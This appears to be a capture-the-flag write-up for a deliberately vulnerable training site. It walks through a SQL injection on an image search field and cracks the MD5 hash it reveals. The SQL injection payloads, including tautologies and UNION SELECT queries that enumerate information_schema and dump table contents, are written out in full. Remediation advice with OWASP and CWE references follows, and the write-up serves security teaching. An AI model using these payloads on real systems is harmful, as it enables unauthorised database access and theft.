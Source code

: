 # Finding 02 - SQL injection on image searching input field


## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.


## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection
	=> "Hostile data is directly used or concatenated. The SQL or command contains the structure and malicious data in dynamic queries, commands, or stored procedures."
	=> "User-supplied data is not validated, filtered, or sanitized by the application."


Common Weakness Enumeration :

CWE-327: Use of a Broken or Risky Cryptographic Algorithm
https://cwe.mitre.org/data/definitions/327.html

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
https://cwe.mitre.org/data/definitions/89.html

CWE-20: Improper Input Validation
https://cwe.mitre.org/data/definitions/20.html


## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Checking the URL gives no result


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT url, title from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT id, comment from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

This code seems to be hashed with md5, so let's try to decrypt it with the following website :
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
albatroz
To encrypt it with sha256, we can use the command:
```echo -n "albatroz" | sha256sum```
The flag is:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Remediation
Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.


## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068
